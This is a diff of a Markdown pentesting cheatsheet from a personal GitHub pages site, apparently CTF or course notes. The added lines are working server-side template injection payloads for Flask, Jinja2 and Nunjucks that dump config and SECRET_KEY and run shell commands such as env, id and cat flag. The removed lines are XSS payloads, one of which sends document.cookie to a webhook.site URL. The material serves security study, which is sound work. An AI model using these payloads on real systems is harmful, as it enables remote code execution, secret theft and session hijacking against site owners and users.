

Before and after one commit to snow-swallow/snow-swallow.github.io, a Markdown page: 6443_cheatsheet.md, 2 parts joined by grey strips. Rendered like a GitHub page; blank space fills up the shorter version.

````diff
--- a/6443_cheatsheet.md
+++ b/6443_cheatsheet.md
@@ -123,7 +123,29 @@ https://hacktricks.wiki/en/pentesting-web/ssti-server-side-template-injection/in
 
 ### 常见flag
 ```
+{{config}}
+{{config.items()}}
+{{settings.SECRET_KEY}}
+{"secret":"{{config}}"}
+{"secret":"{{config.SECRET_KEY}}"}
+{"secret":"{{ config.__class__.__init__.__globals__['os'].popen('env').read() }}"}
+{"secret":"{{self.__dict__}}"}
+{"secret":"{{ config.__class__.__init__.__globals__['os'].popen('ls -F').read() }}"}
+{"secret":"{{ config.__class__.__init__.__globals__['os'].popen('cat flag').read() }}"}
 
+## 执行OS命令（command injection） - Flask SSTI
+{{ config.__class__.__init__.__globals__['os'].popen('env').read() }}
+{{ config.__class__.__init__.__globals__['os'].popen('ls -F').read() }}
+{{ config.__class__.__init__.__globals__['os'].popen('cat flag').read() }}
+
+## 执行OS命令（command injection） - Jinja2 SSTI
+{{cycler.__init__.__globals__.os.popen('id').read()}}
+{{cycler.__init__.__globals__.os.popen('/getpassword').read()}}
+
+
+## Nunjucks payload
+{{constructor.constructor('return process')().mainModule.require('child_process').execSync('id')}}
+{{constructor.constructor('return process')().mainModule.require('child_process').execSync('cat server.js')}}
 ```
 
 
@@ -160,11 +182,7 @@ Ask:
 
 ## 基础payload
 ```HTML
-<h1>a</h1>
-<script>alert(1)</script>
-<img src=x onerror=alert(1)>
-<img src=x onerror="fetch('https://webhook.site/81d73791-1083-421a-9a54-2d49b0bc6bd7?flag='+document.cookie)">
-javascript:alert(1)
+
 ```
 
 
````
